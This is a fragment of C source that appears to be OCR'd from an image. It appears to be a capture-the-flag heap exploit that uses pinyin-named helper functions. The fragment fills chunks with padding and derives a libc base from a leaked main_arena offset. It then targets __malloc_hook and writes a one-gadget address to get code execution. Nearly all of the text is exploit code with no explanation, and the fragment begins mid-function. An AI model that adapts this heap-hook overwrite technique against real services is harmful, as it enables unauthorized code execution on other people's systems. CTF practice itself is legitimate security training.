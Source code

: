 ```c
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",
      0);
  dianMing(
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",
      1);
  qiaoKe(1);
  daBian(1);
  add(1, -MAIN_ARE_OFF);
  mov(2, 1);
  mov(0, 2);
  add(0, MALLOC_HOOK);

  dianMing("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
           "aaaaaaaaaaaaaaaaa",
           2);
  qiaoKe(2);
  xiaoCe(2);
  mov(0, 2);
  add(0, ONE_GADGET);
  dianMing(
      "\x88\x06H\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
      "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
      "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
      "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
      "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00",
      3);
  xiaoCe(3);
}
```

---